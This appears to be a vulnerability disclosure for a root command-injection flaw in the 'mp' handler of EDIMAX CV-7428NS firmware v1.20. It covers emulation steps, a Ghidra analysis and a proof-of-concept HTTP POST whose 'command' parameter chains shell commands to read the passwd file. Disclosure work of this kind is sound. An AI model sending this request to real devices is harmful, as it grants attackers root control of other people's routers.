

### description:
A remote code execution (RCE) vulnerability was discovered in thefirmware version EDIMAX-cv-7428ns_v1.20. The vulnerability exists in the `mp` function, which processes the `command` parameter via unsanitized input passed to `system()`. This allows attackers to execute arbitrary commands with root privileges by injecting shell metacharacters.

### Firmware
**brand**: EDIMAX
**product**: EDIMAX-cv-7428ns
**version**: v1.20

The firmware can be downloaded from [EDIMAX - Download](https://www.edimax.com/edimax/download/download/data/edimax/global/download/product/home_legacy_products/home_legacy_wi-fi_bridges/cv-7428ns/) and emulated using FirmAE:
```bash
sudo ./run.sh -d EDIMAX ../sim_project/CV-7428NS_v1.20/CV-7428NS_v1.20.bin
```
Note: During emulation, there may be instances where the process appears to fail—that is, while the FirmAE Debugger interface is accessible, the router service may not start properly. In such cases, we can utilize the Debugger's socat to access the router's terminal. From there, we can manually run the firmware's webs file using GDB, which will allow the 80-port service to become available.

Emulation result:  

![[./img/emulation1.png]](./img/emulation1.png)

### analyze  
Using Ghidra, we identified the vulnerable function "mp" at file "webs":
![[./img/code_ana1.png]](./img/code_ana1.png)
![[./img/code_ana2.png]](./img/code_ana2.png)

Key findings:
1. The `command` parameter (pcVar3) is directly concatenated into `local_210` buffer.
2. `system()` executes the constructed command without sanitization.
3. Attempted semicolon filtering can be bypassed using alternative shell metacharacters.

Data flow analysis reveals:
- `websGetVar()` retrieves user-controlled `command` input 
- Command string is formatted into `/bin/rftest.sh [INPUT] > /tmp/rftest.out`
- No validation prevents command injection via `&`, `|`, `$()` etc.

Vulnerable code section:
![[./img/vulnerable_code.png]](./img/vulnerable_code.png)

### poc  
Successful exploitation using Burp Suite:
![[./img/poc_result.png]](./img/poc_result.png)

Verification steps:
1. Execute command injection:
```http
POST /goform/mp HTTP/1.1
Host: 192.168.9.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Cookie: language=0

command=hack%26%26echo%20HACK%26%26ls%20..%26%26cat%20../passwd
```
2. Observed response contains the content of file "../passwd" and commands are executed in Firmware.
